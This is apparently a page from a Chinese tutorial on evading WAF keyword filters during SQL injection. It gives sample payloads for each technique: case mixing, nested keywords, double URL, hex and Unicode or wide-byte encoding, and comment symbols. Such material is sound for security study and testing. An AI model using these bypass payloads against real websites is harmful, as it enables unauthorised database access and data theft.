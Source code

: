     1. 大小写混合
        大小写绕过用于只针对小写或大写的关键字匹配技术，正则表达式/express/i 大小写不敏感即无法绕过，这是最简单的绕过技术

    举例：z.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4 

    示例场景可能的情况为filter的规则里有对大小写转换的处理，但不是每个关键字或每种情况都有处理

    2. 替换关键字
        这种情况下大小写转化无法绕过，而且正则表达式会替换或删除select、union这些关键字，如果只匹配一次就很容易绕过

    举例：z.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4

    同样是很基础的技术，有些时候甚至构造得更复杂：SeLSeselectleCTecT，不建议对此抱太大期望

    3. 使用编码
    - URL编码

    &emsp;&emsp;在Chrome中输入一个连接，非保留字的字符浏览器会对其URL编码，如空格变为%20、单引号%27、左括号%28、右括号%29
    普通的URL编码可能无法实现绕过，还存在一种情况URL编码只进行了一次过滤，可以用两次编码绕过：

```sql
page.php?id=1%252f%252a*/UNION%252f%252a /SELECT #
```

   - 十六进制编码                             

举例：

```sql
z.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4
SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))
```

&emsp;&emsp;示例代码中，前者是对单个字符十六进制编码，后者则是对整个字符串编码，使用上来说较少见一点 

   - Unicode编码

&emsp;&emsp;Unicode有所谓的标准编码和非标准编码，假设我们用的utf-8为标准编码，那么西欧语系所使用的就是非标准编码了

&emsp;&emsp;看一下常用的几个符号的一些Unicode编码：

单引号: `%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7`

空格: `%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0`

左括号: `%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8`

右括号: `%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9`

举例: `?id=10%D6'%20AND%201=2%23`　　#'

&emsp;&emsp;两个示例中，前者利用双字节绕过，比如对单引号转义操作变成\，那么就变成了%D6%5C，%D6%5C构成了一个款字节即Unicode字节，单引号可以正常使用第二个示例使用的是两种不同编码的字符的比较，它们比较的结果可能是True或者False，关键在于Unicode编码种类繁多，基于黑名单的过滤器无法处理所以情况，从而实现绕过
&emsp;&emsp;另外平时听得多一点的可能是utf-7的绕过，还有utf-16、utf-32的绕过，后者从成功的实现对google的绕过，有兴趣的朋友可以去了解下常见的编码当然还有二进制、八进制，它们不一定都派得上用场，但后面会提到使用二进制的

例子:
    
4. 使用注释
   
看一下常见的用于注释的符号有哪些：
```
    //, -- , /**/, #, --+,--  -, ;，--a
```
